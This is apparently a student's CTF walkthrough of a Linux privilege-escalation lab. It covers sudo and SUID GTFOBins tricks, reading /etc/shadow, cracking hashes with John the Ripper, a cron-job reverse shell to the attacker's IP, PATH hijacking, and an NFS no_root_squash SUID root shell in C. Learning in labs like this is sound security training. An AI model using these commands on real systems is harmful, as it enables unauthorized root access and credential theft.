


# **Linux Privilege Escalation**    
In this lab we have been provided with SHS access to the target machine and must escalate our privileges throughout each tasks to find the flags and complete the questions.

**Provided Credentials**:

    Username: karen
    Password: Password1


## **Task 1** Introduction
Privilege escalation is a journey. There are no silver bullets, and much depends on the specific configuration of the target system. The kernel version, installed applications, supported programming languages, other users' passwords are a few key elements that will affect your road to the root shell.

This room was designed to cover the main privilege escalation vectors and give you a better understanding of the process. This new skill will be an essential part of your arsenal whether you are participating in CTFs, taking certification exams, or working as a penetration tester.


------------------------------------------------------

## **Task 2** What is Privilege Escalation?
What does "privilege escalation" mean?

At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

Why is it important?

It's rare when performing a real-world penetration test to be able to gain a foothold (initial access) that gives you direct administrative access. Privilege escalation is crucial because it lets you gain system administrator levels of access, which allows you to perform actions such as:

    Resetting passwords
    Bypassing access controls to compromise protected data
    Editing software configurations
    Enabling persistence
    Changing the privilege of existing (or new) users
    Execute any administrative command


------------------------------------------------------

## **Task 3** Enumeration
**Task Questions:**
1. What is the hostname of the target system?  
   - Answer: **[REDACTED - hostname]**
2. What is the Linux kernel version of the target system?  
   - Answer: **[REDACTED - kernel version]**
3. What Linux is this?  
   - Answer: **[REDACTED - linux version]**
4. What version of the Python language is installed on the system?  
   - Answer: **[REDACTED - python version]**
5. What vulnerability seems to affect the kernel of the target system? (Enter a CVE number)  
   - Answer: **[REDACTED - CVE number]**


**Step-by-Step Process:**
- We will start with the following **system enumeration** command to get system info:

`uname -a`


- Next, we want to find the Linux version info and we can use the following command to do so:
`cat /etc/os-release`


- For our final question of the task, we will use [exploit-db](www.exploit-db.com/exploits/37292) to find the CVE number. We can use this kernel exploit to take advantage of a flaw in the operating system kernel, allowing us to gain root privileges.


          
          

------------------------------------------------------

## **Task 4** Automated Enumeration Tools
Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

    LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
    LinEnum: https://github.com/rebootuser/LinEnum
    LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
    Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
    Linux Priv Checker: https://github.com/linted/linuxprivchecker 


------------------------------------------------------

## **Task 5** Kernel Exploits
**Task Questions:**
1. What is the content of the flag1.txt file?
   - Answer:  **[REDACTED - flag format:THM-XXXXXXXXXXXXXX]**


**Step-by-Step Process:**
- Now we want to use the kernel exploit we found earlier, download the exploit code from [exploit-db](www.exploit-db.com/exploits/37292)


- In a new terminal set up a python server inside the folder that you downloaded the exploit code to:

`python3 -m http.server <PORT>` for Python3 or `python -m SimpleHTTPServer <PORT>` for Python


- Next we need to download our exploit code to the target machine, but first we need to know our tun0 IP. Either connect `to 10.10.10.10` in your browser or use `ifconfig tun0` in a new terminal. The /tmp directory in Linux is used for Temporary files and all users can read/write to /tmp. Navigate here on the target machine and download the file using:

`wget http://<tun0-IP>:<SimpleHTTP-Server-PORT>/<EXPLOIT-FILENAME>`


- The file is now on the target machine! But before we can run it we need to compile it using the gcc tool:

`gcc <FILE-TO-COMPILE> -o <OUTPUT-FILENAME>`


-  Now that the exploit code file is compiled, we can run it using `./<FILENAME>` and now we should have access to root privileges, confirm with `whoami`.


- We can now view the contents of the flag1.txt file.


------------------------------------------------------

## **Task 6** Sudo
[GTFOBins](https://gtfobins.github.io) is an incredibly powerful resource that can help us with escalation if your user can run specific binaries via `sudo`.

**Task Questions:**
1. How many programs can the user "karen" run on the target system with sudo rights? 
   - Answer: **[REDACTED - number of programs]**
2. What is the content of the flag2.txt file?
   - Answer:  **[REDACTED - flag format: THM-XXXXXXXXX]**
3. How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?
   - Answer:  **[REDACTED - command from GTFOBins]**
4. What is the hash of frank's password?
   - Answer:  **[REDACTED - password hash from /etc/shadow]**

**Step-by-Step Process:**
- We can use the following command to check how many programs our user karen can run with sudo rights:

`sudo -l`

 


- Knowing now what programs karen can run with sudo, we can check GTFOBins for an exploit to escalate user privileges and we found one 'find', we can use it to spawn a shell with root privileges.


- Now lets try the following command to do so:

`sudo find . -exec /bin/sh \; -quit`


- We can now see what we have root privileges by typing `whoami`.


- Now we're able to reveal the contents of flag2.txt as a root user.




- For Question 3 we can search on GTFOBins again but this time for 'nmap' the same way we did for 'find'.


- For Question 4 we will use our new root user to find frank's password hash.

`cat /etc/shadow`


------------------------------------------------------

## **Task 7** SUID
**Task Questions:**
1. Which user shares the name of a great comic book writer?
   - Answer:  **[REDACTED - username]**
2. What is the password of user2?
   - Answer:  **[REDACTED - password]**
3. What is the content of the flag3.txt file?
   - Answer:  **[REDACTED - flag format: THM-XXXXXXX]** 

**Step-by-Step Process:**
- We don't have permission to view the /etc/shadow file. So we will be searching for files with SUID bits enabled with the following command:

`find / -type f -perm -04000 -ls 2>/dev/null`


- Then we will use [GTFOBins](https://gtfobins.github.io) to see if they're exploitable.


- We found that Base64 has SUID permissions and is exploitable, now we can use the command from GTFOBins to view the output of the /etc/shadow file and the /etc/passwd file and copy the info for user2 into new files on our personal machine for cracking using john.

```
LFILE=/etc/shadow
./base64 "$LFILE" | base64 --decode
```

 

 


- Next we use the unshadow tool that will combine the two files we just created into one so John the Ripper can use this file to crack the password hash, run this command from the folder the files are in:

`unshadow <passwd-file> <shadow-file> > <output-filename.txt>`


- Now that we have our unshadowed file we can run john to crack the password:

`john --wordlist=</path/to/wordlist.txt> <unshadowed-file.txt>`


- To see the cracked password at anytime just use:

`john --show <unshadowed-file.txt>`


- We will now use the Base64 exploit one more time to view our flag3.txt file that we do not have permissions for:

```
LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```


------------------------------------------------------

## **Task 8** Capabilities
[GTFOBins](https://gtfobins.github.io) has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

**Task Questions:**
1. How many binaries have set capabilities?  
   - Answer: **[REDACTED - numeric value]**
2. What other binary can be used through its capabilities?  
   - Answer: **[REDACTED - binary name]**
3. What is the content of the flag4.txt file?  
   - Answer: **[REDACTED - flag format: THM-XXXXXXX]**

**Step-by-Step Process:**
- First we can use the  getcap tool mentioned in the task to list enabled capabilities:

`getcap -r / 2>/dev/null`


- Using GTFOBins I searched and found that vim can be exploited with Capabilties.


- We use the provided script from GTFOBins, but I had to modify it for our version of python.

`./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`


- Now we can see that we have root privileges with `whoami`.


- Then we can find the flag4.txt file.


------------------------------------------------------

## **Task 9** Cron Jobs
**Task Questions:**
1. How many user-defined cron jobs can you see on the target system?  
   - Answer: **[REDACTED - number of cron jobs]**
2. What is the content of the flag5.txt file?  
   - Answer: **[REDACTED - flag format: THM-XXXXXXXXX]**
3. What is Matt's password?  
   - Answer: **[REDACTED - password]**

**Step-by-Step Process:**
- First I checked the /home/ubunutu/flag5.txt file, permission was denied, we need root escalation!


- I used cat /etc/crontab to reveal available cron jobs and the one we will be working with is backup.sh as it runs once per minute and is easily exploitable.


- Next we use Nano to modify backup.sh and add our reverse shell provided by the task, make sure to change to your tun0 IP and desired port:

```
#!/bin/bash`
bash -i /dev/tcp/<OUR_MACHINE_IP>/<PORT> 0>&1
```


- Then we need to open a new terminal window and we want to start listening on your specificed port, we will need to wait up to 1 minute for the reverse shell script to run, if you haven't caught anything after 2 minutes. Something has gone wrong, as it did for me.


- Here I ran into a roadblock. I setup the script as directed by the lesson, but I had overlooked the fact that the file was not executable. Scratching my head here a little I ended up refering to a workthrough written by "mohsin92006" and they had a similar issue. Learning from their mistakes I learned I had not made the file executable, an easy thing to overlook. We will need to run the following command to change the permissions to executable allowing it to run:

`chmod +x backup.sh`


- I thought for sure it would start working after this but no. After some fiddling and research I learnt that firewalls can block reverse shell connections, so I added the port I was using in the reverse shell code to the ALLOW list on my firewall and I finally got my listener to catch the reverse shell.


- Now that we have the reverse shell working with root privileges, I used cat to reveal the flag5.txt contents.


- Next we need to find matt's password, and to do that we're going to access the shadow file and crack the Matt's password with the john tool.

`cat /etc/shadow | grep matt`


Copy matt's shadow info into a .txt file from /etc/shadow and used the John the Ripper tool with a wordlist like rockyou.txt to crack the password the last question of the task.

`john --wordlist=/path/to/wordlist.txt <TARGET-FILE>`

`john --show <TARGET-FILE>`


------------------------------------------------------

## **Task 10** PATH
**Task Questions:**
1. What is the odd folder you have write access for?
   - **[REDACTED - path/to/file]**
2. What is the content of the flag6.txt file?
   - **[REDACTED - flag format: THM-XXXXXXXXX]**

**Step-by-Step Process:**
- I found the odd folder with write access in /home using the following command:

`find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u`


- We found the flag6.txt file under "/home/matt/flag6.txt" but do not have permissions reveal it.


- Next we need to exploit the $PATH vulnerability to view the contents of the file, from the question hint we see that we can create a file called "thm" under the writable folder and the "./test" executable file will read and execute it.


- First, I checked what folders are located under "$PATH" and then added the writable folder to the "PATH":

```
echo $PATH
export PATH=<PATH/TO/FOLDER>:$PATH
```


- Under the writeable folder in "/home/murdoch" I created the thm file with the shell code provided in the task and changed the permissions of the file.

```
echo "bin/bash" > thm
chmod 777 thm
```


- Now we can run our shell code by running "./test" and gain root privileges:




- And finally we can now read our flag6.txt file and finish the task.


------------------------------------------------------

## **Task 11** NFS (Network File Sharing)

**Task Questions:**
1. How many mountable shares can you identify on the target system?
   - **[REDACTED - numeric value]**
2. How many shares have the "no_root_squash" option enabled?
   - **[REDACTED - numeric value]**
3. What is the content of the flag7.txt file?
   - **[REDACTED - flag format: THM-XXXXXXXX]**

**Step-by-Step Process:**
- To start, we can enumerate the mountable shares for the target from our attack machine:

`showmount -e <TARGET-IP>`


- On the target machine, we can use the `cat /etc/exports` command to check the NFS configuration and we found the answer to the second question. If the "no_root_squash" option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.


- We will need to gain root privileges in order to view the contest of the flag7.txt file, to do this we will be mounting one of the "no_root_squash" shares to our attacking machine. Create a folder on our attacking machine in the "/tmp" directory as it's writable by default and safe to use temporarily because it's less likely to mess with important directories.

`mkdir /tmp/<FOLDERNAME>`


- Then we will mount the folder with rewritable access:

`sudo mount -o rw <TARGET_IP>:/<FOLDER> /tmp/<FOLDER_ON_OUR_MACHINE>`


- Next we can check if we have access to the share on our system by checking if the files in the both attacker and target machines.


- We can now create an executable that, when run, will launch /bin/sh on the target system. I added the line `#include <unistd.h>` at the top of the code, as it is required for the program to compile correctly on Unix-like systems. This header provides the necessary declarations for system calls like setuid(), setgid(), and execl().


```
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", NULL);
    return 0;
}
```


- Then make sure you're a root user by typing `whoami` if you're not root, type `sudo -i`, then we compile our file:

`gcc <FILENAME>.c -o <OUTPUT_FILENAME> -w`


- Set the SUID bits:

`chmod +s <FILENAME>`


- We should now see the file transfered onto the target machine in the /tmp directory.


- Now we should just be able to run the executable and get a root shell, but I ran into an issue here. My attacker machine that I compiled the file on has a newer version of glibc than the target machine so it can't run.


- After a few attempts and some more research I found a solution that worked for me to get past this glibc error. If we use '-static' in our gcc command when compiling on our target machine we can make the binary self-contained and remove the glibc version issues, don't forget to change permissions on the compiled file also:

`gcc -static <FILENAME> -o <OUTPUT-FILENAME>`

`chmod +s <FILENAME>`

 


- Now we can try running the file on the target machine again from inside the /tmp directory with `./<FILENAME>`. To check if it worked we type `whoami` and should see 'root', which we do.


   

- With root privileges successfully obtained we can now view our flag7.txt file and complete task 11.


------------------------------------------------------

## **Task 12** Capstone Challenge
**Task Questions:**
1. What is the content of the flag1.txt file?
   - Answer: **[REDACTED - flag format: THM-XXXXXXXXXXXXXX]**
2. What is the content of the flag2.txt file?
   - Answer: **[REDACTED - flag format: THM-XXXXXXXXXXXXXXX]**

- We've been provided SSH access to a target Linux machine representing a "large scientific facility". Our objective is to escalate privileges with no guidance and retrieve the flags.

**Provided Credentials**:

    Username: leonard
    Password: Penny123
   
**Step-by-Step Process:**
- First I started with some basic system enumeration. Using `uname -a` and `cat /os/release` to determine what Linux version and kernel is installed, checking [exploit-db](www.exploit-db.com) I didn't find any verified exploits for this kernel.


- Next checked for SUID binary bits set with `find / -type f -perm -04000 -ls 2>/dev/null`, we can see that base64 does, this could be useful for reading files we don't have permissions for later by using the exploit we found earlier on GTFOBins for task 7.


- Now we're going to try and find the location of our two flags from the home directory using `find -name flag*.txt`.


- We now know the directories that the flags are in but we do not have permissions to access the directories, seeing as 'missy' apppears to be a user on the target machine I used base64 to view the contents of the shadow file:

```
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```


- We can see that "missy" is in fact a user and we will copy the user password hash for "missy" into a .txt file on our attacker machine. We can then use the John the Ripper tool with a wordlist (like the rockyou.txt wordlist) to attempt to crack the password:

```
john --wordlist=</PATH/TO/WORDLIST.TXT> <FILENAME>
john --show <FILENAME>
```


- We successfully cracked the password for the user missy and have gained lateral movement!


- We now have access to the missy directory, using `find -name flag*.txt` we can see that the flag1.txt file is located in '/home/missy/Documents', navigating there we user `cat flag1.txt` and we have solved the first question:


- Now we need to gain root privileges from 'missy' in order to access the '/home/rootflag' directory. So we do a quick search to see what sudo commands missy can do with `sudo -l`:


- The user 'missy' has sudo access to find. We can use [GTFOBins](https://gtfobins.github.io/gtfobins/find/) to search find for escalation.


- We can use this command to breakout into a 'root' shell `sudo find . -exec /bin/sh \; -quit`.


- Now that we have achieved root privileges and we can now access '/home/flagroot/flag2.txt' to finish the final question:


------------------------------------------------------

**Conclusion**

This room demonstrated an extensive range of Linux privilege escalation techniques including kernel exploits, SUID misconfigurations, writable PATH manipulation, cron job abuse, capabilities exploitation, NFS misconfigurate and sudo misuses. Throughout the lab, I practived lateral movement password cracking and leveraging GTFOBins binary exploitations.

Each task reinforced key principles in post-exploitation privilege escalation, highlighting the importance of thorough enumeration and methodical analysis. By the end of the capstone challenge, I was able to escalate from a limited user to full root access, successfully retrieving all flags.

This experience has strengthened my ability to approach privilege escalation in real-world engagements and will serve as a valuable reference for future assessments, CTFs, and professional penetration tests.